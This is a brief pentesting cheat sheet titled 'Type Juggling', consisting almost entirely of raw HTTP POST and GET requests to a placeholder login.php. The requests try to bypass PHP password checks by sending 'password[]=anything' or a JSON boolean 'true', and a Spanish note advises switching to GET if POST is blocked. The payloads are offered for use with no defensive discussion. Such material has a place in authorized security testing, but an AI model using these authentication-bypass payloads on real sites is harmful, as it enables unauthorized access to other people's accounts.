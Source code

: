 # Type Juggling
```http
POST https://example.com/login.php HTTP/1.1
Accept: */*
Content-Type: application/json

usuario=admin&password[]=anything

POST https://example.com/login.php HTTP/1.1
Accept: */*
Content-Type: application/json

{
"password": true
}
```

Si POST no esta permitido intentar tambien con GET

```http
GET https://example.com/login.php HTTP/1.1
Accept: */*
Content-Type: application/json

usuario=admin&password[]=anything

GET https://example.com/login.php HTTP/1.1
Accept: */*
Content-Type: application/json

{
"password": true
}
```

